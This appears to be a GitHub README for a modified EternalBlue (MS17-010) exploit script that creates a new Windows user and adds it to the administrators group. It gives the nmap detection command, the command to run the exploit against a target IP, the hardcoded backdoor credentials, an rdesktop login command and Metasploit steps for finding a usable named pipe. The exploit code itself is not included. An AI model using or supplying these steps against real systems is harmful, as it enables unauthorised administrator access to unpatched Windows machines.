 # EternalBlue
I have done some changes to the https://raw.githubusercontent.com/worawit/MS17-010/master/zzz_exploit.py developed by sleepya. This script create a new user and add the user to administrator group

Detect the vulnerability
nmap --script smb-vuln-ms17-010 -p445 <target_ip>

How to run the exploit
python exploit.py <target_ip> <pipe_name>
once the user is created you can logged in to the system using rdesktop

 user    : John,
 password: fadf24as

rdesktop -u John -p fadf24as <target_ip>

## How to find the pipe

msfconsole
#use auxiliary/scanner/smb/pipe_auditor
#set rhosts <target_ip>
#run

Result
Pipes: \netlogon, \lsarpc, \samr, \browser, \atsvc, \epmapper, \eventlog, \InitShutdown, \lsass, \ntsvcs, \router, \scerpc, \srvsvc, \tapsrv, \wkssvc
